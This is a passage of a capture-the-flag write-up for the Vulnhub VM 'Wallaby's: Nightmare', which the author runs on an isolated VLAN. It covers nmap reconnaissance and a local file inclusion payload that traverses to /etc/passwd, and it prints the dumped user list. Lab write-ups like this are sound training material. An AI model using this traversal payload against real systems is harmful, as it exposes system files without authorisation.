 Wallaby's: Nightmare (1.0.2)
============================

Source: https://www.vulnhub.com/entry/wallabys-nightmare-102,176/

* Name: HackDay: Albania
* Released: 22 Dec 2016
* Author: Waldo
* Series: Wallaby's

Recon, Recon, Recon
-------------------

This VM was absolutely not connected to my network -- I set it on its own VLAN. As should you if you run any of these Vulnhub exercises.
I started by running a ping scan across my local `/16` to see what was open.

```
nmap -sn 192.168.0.0/16
```

That came up with 2 results for the VM:

```
map scan report for 192.168.x.x
Host is up (0.00040s latency).
MAC Address: 00:0C:29:6B:EE:FA (VMware)
Nmap scan report for 192.168.x.x
Host is up (0.00038s latency).
MAC Address: 00:0C:29:6B:EE:FA (VMware)
```

Well (alright)x3, we have our 2 IPs. Time for a bit of a juicier `nmap`:

```nmap -sV -A --open -vv -p1-65535 $TARGETIPS

[insert brevity here]

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:07:fc:70:20:98:f8:46:e4:8d:2e:ca:39:22:c7:be (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRXjkewNllkNLo46qiVKISIdysX+C//dfiL0yrAphV9jJg7ETXmLIcfKGQIuRVWXRPm5LgX1OE4LP4wmc5qWbCrI9HOZNMDDuZZsJ7hsHhDPVfu9J0aGoj69vPo7FCZlNWd+371cUiI0qmUeOGZGfAmZotGPkW9r6lom2ww6JphrtwpmlyI+pQk2x1qZR4ZnCIl+XmgFyGHEhim5ALMplxQP8qjnxjncr90xYSByjtQjlvURlemFjjbvVpPhX+BzsMAsXO16ywClLoig0dU39sSBbCSkgmryJYyLfkSWVO9KV6HPEXrVVxnHmUPwi19xGBiq9mxUbmPIza9r0BEofl
|   256 99:46:05:e7:c2:ba:ce:06:c4:47:c8:4f:9f:58:4c:86 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE91a97Hjo/onlxZBy2uFVZ5oTYZcVW2ivqzxdbF0EANVVX5asJJWv3jnb0NQuZY0LqUEs3cObmDVrKETtWmDfw=
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Wallaby's Server
```

Both IPs have SSH and Apache 2.4.18 open, and the server looks to be Ubuntu.

App(le) Picking
---------------

Let's check out this web app! It asked me to create a username, and because I love FFXIV so much, I chose `y4nd3r3_ro3`. Once registered, it takes me to a URL with this format:

> http://192.168.x.x/?page=home

The "registration" page suggested fuzzing is the way to go, and I do love fuzzing. With a URL format like that, I tried the first thing that came to mind: LFI (Local File Inclusion). Since it's an Ubuntu server, I stuck with the standard `/etc/passwd` test...

> http://192.168.x.x/?page=../../../etc/passwd

...And it worked! 


```root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false uuidd:x:107:111::/run/uuidd:/bin/false walfin:x:1000:1000:walfin,,,:/home/walfin:/bin/bash sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false steven?:x:1001:1001::/home/steven?:/bin/bash ircd:x:1003:1003:,,,:/home/ircd:/bin/bash
```

There are users named `steven?` and `walfin` in there, also an irc daemon. Both first users listed have `/bin/bash` enabled.
